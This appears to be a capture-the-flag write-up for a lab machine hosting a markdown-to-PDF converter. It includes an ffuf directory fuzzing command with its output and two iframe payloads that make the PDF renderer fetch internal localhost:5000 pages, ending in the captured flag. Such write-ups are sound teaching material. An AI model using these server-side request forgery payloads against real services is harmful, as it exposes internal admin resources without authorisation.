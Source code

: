 ```yaml
---
sticker: lucide//code
---
```


# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 5000 | RSTP    |



# RECONNAISSANCE
---

If we check the web application, we can see this:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617123928.png)

As seen, we can convert markdown to pdf, this is highly vulnerable since at its core it blindly hands our Markdown straight off to a server‑side renderer, whether that’s a headless browser or Pandoc+LaTeX with no filtering or authentication. 

That means we can sneak in `<script>` tags or raw LaTeX commands and make the server fetch internal URLs (like `localhost:5000/resource`) or even execute shell commands. In short, untrusted input becomes powerful SSRF or RCE, exposing private admin panels and letting attackers run arbitrary code.

If we fuzz, we can find this:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.129.226/FUZZ" -ic -c -t 200 -e .php,.html,.txt,.git,.js

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.129.226/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .txt .git .js
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 403, Size: 166, Words: 15, Lines: 5, Duration: 231ms]
```

We can find an admin resource on here, if we try accessing it, this happens:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617124337.png)

Based on that, we now we can exploit the md2pdf site to achieve access to the admin resource, let's do it.


# EXPLOITATION
---

First of all, we need to exfiltrate the data, we can use the following payload:

```js
<iframe src="http://localhost:5000"></iframe>
```

We use iframe to achieve `SSRF`, basically the pdf engine will render the internal resource and give us access to it, let's test it out:



![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617125048.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617125056.png)

It works, let's read admin resource then:

```js
<iframe 
  src="http://localhost:5000/admin" 
  style="width:100%; height:1000px; border:none; overflow:hidden;">
</iframe>
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617125137.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617125144.png)

We got our flag:

```
flag{1f4a2b6ffeaf4707c43885d704eaee4b}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617125225.png)

